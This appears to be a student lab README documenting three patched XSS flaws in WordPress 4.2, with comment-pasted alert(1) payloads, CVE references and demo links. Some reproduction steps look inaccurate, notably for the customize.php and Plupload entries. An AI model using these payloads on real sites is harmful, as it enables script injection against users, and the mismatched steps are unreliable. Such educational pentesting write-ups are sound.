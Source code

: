 # Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document 3 affecting an old version of WordPress

Version of WordPress Tested: 4.2

# Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
```
3. Hover over the posted comment.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8133
2. Reference: https://core.trac.wordpress.org/changeset/33549
3. Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
4. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734

GIF: https://i.imgur.com/AWc0xbA.gif

# Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
```
3. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8358
2. Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
3. Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
4. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564

GIF: https://i.imgur.com/ZmwMJau.gif


# Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
```
3. Click on the button.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8489
2. Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
3. Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
4. Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
5. Reference: http://avlidienbrunn.com/wp_some_loader.php
6. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566

GIF: https://i.imgur.com/eS4AppI.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work:
Some vulnerabilities would work once in a while even when using the same exact code. 
Recording with LiceCap wasn't in focus.

## License

    Copyright [2017] [Sunny Liang]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
